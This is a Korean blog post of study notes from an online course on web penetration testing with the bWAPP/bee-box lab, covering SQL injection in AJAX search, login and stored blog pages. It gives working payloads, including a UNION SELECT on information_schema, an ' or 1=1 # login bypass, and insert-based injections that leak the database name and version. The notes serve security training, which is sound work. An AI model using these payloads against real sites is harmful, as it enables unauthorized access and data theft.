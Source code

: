 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - SQL 인젝션 기초(AJAX, Login, Blog)"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part1 A1
  - SQL 인젝션
---
```


# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 9강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

<!--more-->

# SQL 인젝션 기초

## SQL 인젝션(AJAX, Login, Blog)

## AJAX/JSON/jQuery

* AJAX(Asynchronous JavaScript and XML): 자바스크립트와 JSON을 혼합하여 사용하는 기술
* 페이지 이동 없이 고속으로 화면 전환 가능, 서버 처리를 기다리지 않고 비동기 요청 가능, 수신하는 데이터 양을 줄이고, 클라이언트에게 처리를 위임할 수 있음

## SQL Injection (AJAX/JSON/JQuery)

![image](https://user-images.githubusercontent.com/28076542/52172175-7fe43b00-27ad-11e9-9dd2-76a7dfd4c36a.png)

![image](https://user-images.githubusercontent.com/28076542/52172231-a9519680-27ae-11e9-8e81-b54fdcd57903.png)

![image](https://user-images.githubusercontent.com/28076542/52172237-c8502880-27ae-11e9-9f05-a8144f079f49.png)

![image](https://user-images.githubusercontent.com/28076542/52172241-def67f80-27ae-11e9-8222-b1a52ccdb3d8.png)

* 검색 버튼을 누르지 않고 키보드 키만 눌러도 **XMLHttpRequest**를 통해 요청
* Response는 다음과 같음

![image](https://user-images.githubusercontent.com/28076542/52172252-1d8c3a00-27af-11e9-9d50-a801a4fb5758.png)

### 페이지 소스 확인

```html
<script>

        $("#title").keyup(function(){
            // Searches for a movie title
            var search = {title: $("#title").val()};

            // AJAX call
            $.getJSON("sqli_10-2.php", search, function(data){
                init_table();
                // Constructs the table from the JSON data
                var total = 0;
                $.each(data, function(key, val){
                    total++;
                    $("#table_yellow tr:last").after("<tr><td>" + val.title + "</td><td align='center'>" + val.release_year + "</td><td>" + val.main_character + "</td><td align='center'>" + val.genre + "</td><td align='center'><a href='http://www.imdb.com/title/" + val.imdb + "' target='_blank'>Link</a></td></tr>");
                });
                // Empty result
                if (total == 0)
                {
                    $("#table_yellow tr:last").after("<tr height='30'><td colspan='5' width='580'>No movies were found!</td></tr>");
                }
            })

        });

        function init_table(){
            $("#table_yellow").html("<tr height='30' bgcolor='#ffb717' align='center'>" +
                    "<td width='200'><b>Title</b></td>" +
                    "<td width='80'><b>Release</b></td>" +
                    "<td width='140'><b>Character</b></td>" +
                    "<td width='80'><b>Genre</b></td>" +
                    "<td width='80'><b>IMDb</b></td>" +
                    "</tr>"
                    );
        }

    </script>
```

* 이전 SQL 인젝션과 마찬가지로 검색창에 SQL 인젝션 구문을 넣으면 실행되는 것을 확인할 수 있음
* `0' union select 1,table_name,3,4,5,6,7 from information_schema.tables #`

![image](https://user-images.githubusercontent.com/28076542/52172305-1b76ab00-27b0-11e9-9875-c268ae66289c.png)

## SQL Injection (Login Form/Hero)

![image](https://user-images.githubusercontent.com/28076542/52172311-3a753d00-27b0-11e9-9bf8-738568f42e92.png)

* Login: `' or 1=1 #`
* Password: `1`

![image](https://user-images.githubusercontent.com/28076542/52172326-8cb65e00-27b0-11e9-862b-647055396eda.png)

* 테이블 두 번째 것을 출력하고 싶으면
* Login: `' or 1=1 limit 1,1 #`

## SQL Injection (Stored(Blog))

![image](https://user-images.githubusercontent.com/28076542/52172487-b58c2280-27b3-11e9-9e86-14a9066bb1fe.png)

* SQL의 insert문을 이용하여 테이블을 채우는 구조
* 대략 형태는 `insert testtable1 value('test1234', 'bee')`와 같음
* `test1234', database()) #`

![image](https://user-images.githubusercontent.com/28076542/52172518-5b3f9180-27b4-11e9-8d4e-11f8e360a4b6.png)

* `test1234', @@version)#`

![image](https://user-images.githubusercontent.com/28076542/52172525-81fdc800-27b4-11e9-92b4-01bcb6949a90.png)